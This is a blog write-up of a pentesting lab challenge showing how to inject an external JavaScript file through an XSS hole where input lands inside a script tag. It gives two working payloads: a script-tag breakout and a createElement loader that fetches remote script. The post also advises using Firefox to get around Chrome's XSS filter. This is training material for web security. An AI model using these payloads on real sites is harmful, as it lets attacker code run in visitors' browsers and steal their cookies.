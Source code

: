 ```yaml
---
author: AnirudhAnand
comments: true
date: 2014-10-29 15:06:51+00:00
layout: post
slug: xss-include-external-js-using-js-js-pentesters-task-10-write
title: 'XSS - Include external js using js: JS for Pentesters task 10 write up'
wordpress_id: 315
categories:
- jsp
- javascript
- xss
- security-tube
summary: Writeup for task-10 of the JS for pentesters series by security-tube - Include external js
---
```


In the last write up, we saw how we can include an external JavaScript file and execute it via XSS. This is a very similar challenge but a bit different:

[JS for Pentesters task 10](http://pentesteracademylab.appspot.com/lab/webapp/jfp/10)

Our objective is to Include the JS file available at [http://demofilespa.s3.amazonaws.com/jfptest.js](http://demofilespa.s3.amazonaws.com/jfptest.js) into that page. This time things are a bit different. Usually we include the JavaScript contents inside a `<script>` tag but here in the challenge, what ever we type in, it will goes inside a `<script>` tag so this time, executing a script is a bit difficult.  A very simple way to complete this challenge is to add a closing `</script>` tag and then reopen a new script tag which contains our file:

{% highlight html lineos %}
   </script><script src="http://demofilespa.s3.amazonaws.com/jfptest.js"></script>
{% endhighlight %}

But while explaining about the challenge, vivek has specifically mentioned that we shouldn't use this method and should accomplish this task in some other way. So let us see how can we do this in another way. Basically what we need to do is to create a new script element which points to the external JavaScript file and we should add the newly created script element to the head of the HTML document so that it will execute successfully. So the payload looks like this:

{% highlight html lineos %}
    var script = document.createElement("script");
    script.type = "text/javascript";
    script.src = "http://demofilespa.s3.amazonaws.com/jfptest.js";
    document.getElementsByTagName("head")[0].appendChild(script);
{% endhighlight %}

Like we said above, what we did is that first we created a new **script** element. Then added some attributes to the newly created elements and pointed the src to `http://demofilespa.s3.amazonaws.com/jfptest.js` , where out JavaScript file is located. Then we used the **appendChild()** function in JavaScript to append this script at the end of the** </head>** tag. After a successful run, you can see the cookie in an alert box.

**Note:**

1) While playing with **XSS challenges**, it is always recommended to use Mozilla Firefox because Google chrome has inbuilt XSS stopper which will stop us from executing arbitrary JavaScript code even if the page is vulnerable to XSS. So its strongly recommended to use Firefox instead of chrome.

We hope that you really liked this challenge. If there is anything you didn’t understand or wanted to get more clarity, please comment down and we are more than happy to help. Also, if you get a better way of solving the challenge, please share it with us and we are happy to learn from our readers too. Happy pentesting..
